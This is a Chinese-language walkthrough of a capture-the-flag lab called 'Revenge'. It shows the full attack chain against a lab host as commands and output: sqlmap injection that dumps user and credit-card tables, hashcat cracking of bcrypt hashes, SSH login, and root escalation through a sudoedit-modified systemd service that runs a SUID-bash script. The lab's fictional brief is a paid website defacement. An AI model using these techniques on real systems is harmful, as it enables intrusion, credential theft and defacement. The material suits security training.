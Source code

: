# Revenge

可能涉及的人，

我知道是你黑了我的博客。 你的技能给我留下了深刻的印象。 你有点马虎
并留下了一点足迹，所以我能够找到你。 但是，谢谢你接受我的提议。 
我已经对网站进行了一些初步的枚举，因为我知道\*一些*关于黑客的事情，但还不够。 
出于这个原因，我将让你做自己的枚举和检查。

我要你做的很简单。 闯入运行网站的服务器并污损首页。 
我不在乎你怎么做，只要做就行了。 但请记住...不要关闭网站！ 我们不想造成无法弥补的损害。

完成工作后，您将获得剩余的付款。 我们商定了5 000美元。 
一半在前面，一半在你完成后。

祝你好运

比利

---

    ┌──(root🐦kali)-[/home/sugobet]
    └─# nmap -sS 10.10.103.200
    Starting Nmap 7.93 ( https://nmap.org ) at 2023-01-10 20:19 CST
    Nmap scan report for 10.10.103.200
    Host is up (0.26s latency).
    Not shown: 998 closed tcp ports (reset)
    PORT   STATE SERVICE
    22/tcp open  ssh
    80/tcp open  http

进入web查看，发现一处可能存在sqli, poc：

    http://10.10.103.200/products/1+1

数字型注入，成功返回另一个存在的页面

上sqlmap，省时省力

    sqlmap -u 'http://10.10.103.200/products/1' --dbs

    [20:29:17] [INFO] the back-end DBMS is MySQL
    web server operating system: Linux Ubuntu
    web application technology: Nginx 1.14.0
    back-end DBMS: MySQL >= 5.0.12
    [20:29:19] [INFO] fetching database names
    available databases [5]:
    [*] duckyinc
    [*] information_schema
    [*] mysql
    [*] performance_schema
    [*] sys

查duckyinc所有表：

    sqlmap -u 'http://10.10.103.200/products/1' --dbms=mysql -D duckyinc --tables

    Database: duckyinc
    [3 tables]
    +-------------+
    | system_user |
    | user        |
    | product     |
    +-------------+

爆列并且转储数据：

    sqlmap -u 'http://10.10.103.200/products/1' --dbms=mysql -D duckyinc -T user -C credit_card --dump

这样将能够获得第一个flag，至于该表的数据，我们暂且放下，因为我们有另一个更值得看的表system_user

这表名一听就跟目标系统用户会有关系

    sqlmap -u 'http://10.10.103.200/products/1' --dbms=mysql -D duckyinc -T system_user -C username,_password --dump

    Database: duckyinc
    Table: system_user
    [3 entries]
    +--------------+--------------------------------------------------------------+
    | username     | _password                                                    |
    +--------------+--------------------------------------------------------------+
    | server-admin | $2a$08$GPh7KZcK2kNIQEm5byBj1umCQ79xP.zQe19hPoG/w2GoebUtPfT8a |
    | kmotley      | $2a$12$LEENY/LWOfyxyCBUlfX8Mu8viV9mGUse97L8x.4L66e9xwzzHfsQa |
    | dhughes      | $2a$12$22xS/uDxuIsPqrRcxtVmi.GR2/xh0xITGdHuubRF4Iilg5ENAFlcK |
    +--------------+--------------------------------------------------------------+

数据存储在：

    /root/.local/share/sqlmap/output/10.10.103.200/dump/duckyinc/system_user.csv

使用haiti-hash可以帮助我们快速识别hash类型，还能告诉我们hashcat和john的类型值：

    ┌──(root🐦kali)-[/home/sugobet]
    └─# haiti '$2a$08$GPh7KZcK2kNIQEm5byBj1umCQ79xP.zQe19hPoG/w2GoebUtPfT8a'
    bcrypt [HC: 3200] [JtR: bcrypt]
    Blowfish(OpenBSD) [HC: 3200] [JtR: bcrypt]
    Woltlab Burning Board 4.x

hashcat 的hash-mode值是：3200

清洗数据，提取hash：

    cut -d ":" -f2 /root/.local/share/sqlmap/output/10.10.103.200/dump/duckyinc/system_user.csv > ./test1.txt

爆破：

    hashcat -a 0 -m 3200 ./test1.txt /usr/share/wordlists/rockyou.txt

    $2a$08$GPh7KZcK2kNIQEm5byBj1umCQ79xP.zQe19hPoG/w2GoebUtPfT8a:in*****ha

只爆出了server-admin的密码，但那也足够了，现在登录ssh

    ┌──(root🐦kali)-[/home/sugobet]
    └─# ssh server-admin@10.10.103.200

成功

    server-admin@duckyinc:~$ ls -la
    total 44
    drwxr-xr-x 5 server-admin server-admin 4096 Aug 12  2020 .
    drwxr-xr-x 3 root         root         4096 Aug 10  2020 ..
    lrwxrwxrwx 1 root         root            9 Aug 10  2020 .bash_history -> /dev/null
    -rw-r--r-- 1 server-admin server-admin  220 Aug 10  2020 .bash_logout
    -rw-r--r-- 1 server-admin server-admin 3771 Aug 10  2020 .bashrc
    drwx------ 2 server-admin server-admin 4096 Aug 10  2020 .cache
    -rw-r----- 1 server-admin server-admin   18 Aug 10  2020 flag2.txt
    drwx------ 3 server-admin server-admin 4096 Aug 10  2020 .gnupg
    -rw------- 1 root         root           31 Aug 10  2020 .lesshst
    drwxr-xr-x 3 server-admin server-admin 4096 Aug 10  2020 .local
    -rw-r--r-- 1 server-admin server-admin  807 Aug 10  2020 .profile
    -rw-r--r-- 1 server-admin server-admin    0 Aug 10  2020 .sudo_as_admin_successful
    -rw------- 1 server-admin server-admin 2933 Aug 12  2020 .viminfo
    server-admin@duckyinc:~$ cat ./flag2.txt

查看sudo -l:

    Matching Defaults entries for server-admin on duckyinc:
        env_reset, mail_badpass,
        secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

    User server-admin may run the following commands on duckyinc:
        (root) /bin/systemctl start duckyinc.service, /bin/systemctl enable duckyinc.service,
            /bin/systemctl restart duckyinc.service, /bin/systemctl daemon-reload, sudoedit
            /etc/systemd/system/duckyinc.service

有个sudoedit，直接使用：

    sudoedit /etc/systemd/system/duckyinc.service

是nano

编辑该文件：

    [Unit]
    Description=Gunicorn instance to serve DuckyInc Webapp
    After=network.target

    [Service]
    User=root
    Group=root
    WorkingDirectory=/var/www/duckyinc
    ExecStart=/bin/bash /tmp/hack.sh
    ExecReload=/bin/kill -s HUP $MAINPID
    ExecStop=/bin/kill -s TERM $MAINPID

    [Install]
    WantedBy=multi-user.target

创建文件/tmp/hack.sh:

    #!/bin/bash

    cp /bin/bash /tmp/bash
    chmod +s /tmp/bash

重载配置并重启服务

    server-admin@duckyinc:~$ sudo /bin/systemctl daemon-reload
    server-admin@duckyinc:~$ sudo /bin/systemctl restart duckyinc.service

/tmp/bash

    server-admin@duckyinc:~$ /tmp/bash -p
    bash-4.4# whoami
    root

但是/root下并没有flag,即便使用find也找不到

查看提示：任务目标

    我要你做的很简单。 闯入运行网站的服务器并污损首页。

将duckyinc.service文件的group和user恢复原样

然后修改/var/www/duckyinc/templates/index.html

flag就会出现在/root
